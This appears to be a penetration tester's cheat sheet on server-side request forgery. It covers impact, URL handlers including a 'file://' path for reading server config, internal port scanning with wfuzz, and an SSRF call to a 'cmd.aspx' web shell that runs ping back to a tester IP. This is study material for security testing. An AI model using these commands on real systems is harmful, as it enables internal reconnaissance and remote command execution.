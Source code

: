 #### 1.1. About SSRF

- somewhat similar to File Inclusion, but attack vectors require that the target will internally process URLs/HTTP requests
- this attack will most likely have a higher impact on internal network / localhost
- helps with internal port scanning (where services might be firewalled - aka XSPA)
- helps with internal (sub)domain and IPs/hosts discovery
  - Docker default: `172.17.0.1-254`
  - `http://site.com/?url=https://172.17.0.105:1234` - where `1234` is an open HTTP port (expected error: `SSL23_GET_SERVER_HELLO`; to avoid time-out error)
  - first enumerate common ports on existing internal IP address
- could be limited to internal URLs only (`*.domain.com`)
- SSRF can be used to download remote malicious files and depending on server misconfiguration (`.php`) files can be executed
- can be used to leak information / administrative interfaces / internal services
- allows interaction with internal services that are not supposed to be exposed


#### 1.2. Readme

```
https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM
https://github.com/jdonsec/AllThingsSSRF
```

#### 1.3. URL handlers

- `file://, http://, https://` (most common)
- `file:///proc/self/cwd/../config/` (Java)
- `gopher://, dict://, php://, jar://, tftp://`

More: `https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml`

#### 1.4. Detection

Manual detection:
```
$ http "http://$target/url.php?path=http://localhost:22" -b
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.

$ $ http "$target/url.php?path=http://localhost:8080" -b
<!DOCTYPE html><html><head><title>Apache Tomcat/8.5.5 - Error report</title>
....
```


WFUZZ port scanning via SSRF:
```
# docker run --rm -it wfuzz -z range,0-65535 --hh 2 $target/url.php?path=http://localhost:FUZZ
```

SSRF with ping command:
```
$ http $target/test.asp?u=http%3a//localhost%3a80/cmd.aspx%3fxcmd%3dping+-n+1+10.10.14.13
$ sudo tcpdump -i tun0 icmp 2>/dev/null
06:30:29.301733 IP 10.10.10.57 > 10.10.14.13: ICMP echo request, id 1, seq 9, length 40
06:30:29.301754 IP 10.10.14.13 > 10.10.10.57: ICMP echo reply, id 1, seq 9, length 40
```
